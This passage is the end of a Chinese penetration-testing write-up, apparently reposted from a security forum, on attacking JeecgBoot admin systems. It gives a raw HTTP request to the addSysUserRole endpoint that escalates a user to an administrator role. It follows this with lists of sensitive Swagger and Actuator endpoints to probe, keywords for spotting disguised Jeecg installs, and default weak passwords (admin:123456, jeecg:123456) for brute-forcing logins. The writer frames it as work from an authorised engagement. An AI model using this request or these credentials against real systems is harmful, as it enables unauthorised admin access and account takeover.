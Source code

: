 //roleld填写需要提权的角色id userldList填写自己的id  
  
```
POST xxxxx/jeecg-boot/sys/user/addSysUserRole（jeecg接口，需要自己去尝试，不一定是我这个） HTTP/1.1Host: Cookie: cna=Ov9SH4RxGiACAf////9C18zbUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0) Gecko/20100101 Firefox/129.0Accept: application/json, text/plain, */*Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2Accept-Encoding: gzip, deflateX-Access-Token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE3MjUzNzMyNDMsInVzZXJuYW1lIjoiMTEwMTAyIn0.NXRckymfKdZvEFsDQZ9Jwvk_rU_gVny2Rx6ATenant-Id: 0Origin:Dnt: 1Referer: Sec-Fetch-Dest: emptySec-Fetch-Mode: corsSec-Fetch-Site: same-originPriority: u=0Te: trailersConnection: closeContent-Type: application/jsonContent-Length: 96{"roleId":"xxxxxxxxxxx","userIdList":["xxxxxxxxxxxxxxxx"]}
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWWYqyJBSm3GBzeNhSjmhtM9eVPUhaU1q56Npia6uezsXdbIMhfVAHxAQ3bEiapib1YmQiazBku7S0icEyA/640?wx_fmt=png&from=appmsg "")  
  
  
这样就成功创建了这个系统的admin管理员的账户了，后面的思考就是直接使用创建的账户密码，去尝试爆破登陆其他系统  
  
### 六、其他jeecg小技巧  
  
  
下面再给大家总结下jeecg的其他打法小技巧  
  
  
一、常见的接口敏感信息泄露：  
  
```
/v2/api-docs/swagger-ui.html/env//获取参数信息/actuator/mappings/metrics/beans/configprops/actuator/metrics/actuator/mappings/actuator/beans/actuator/configprops/actuator/httptrace
```  
  
二、常见jeecg框架接口关键字：  
  
  
像看到下面的几个关键字，首先需要想到使用jeecg去打，因为很多现在直接把jeecg关键字给魔改了  
  
```
jeecg/api/sys/sys/user
```  
  
三、jeecg的几个常用弱口令：  
  
  
可以使用下面的弱口令去尝试爆破下登陆接口  
  
```
admin:123456jeecg:123456
```  
## 0x7 总结  
  
  
然后还有很多其他的漏洞，这次文章就不一一给师傅们分享了，留着下次有时候给师傅们分享，这次写这篇文章由于之前的渗透测试项目漏洞都修复 了，我才写的这篇文章，所以实属不易，为了给师傅们演示的那么细致，特意去网上现找了一些漏洞实操截图给师傅们，因为之前的漏洞报告没有写的那么详细，这里怕新手师傅看不懂。  
  
  
这次渗透测试总共提交了四五十个漏洞报告，其中包括很多框架系统的默认弱口令，这个确实让我蛮意外的，还有一些网上的nday，这里面有些老系统也存在，因为测试的资产比较多，所以相对来讲出洞率较高。  
  
  
最后，希望看完这篇文章的你，也可以挖到心仪的漏洞！  
  
原文链接：  
https://zone.huoxian.cn/d/2990  
  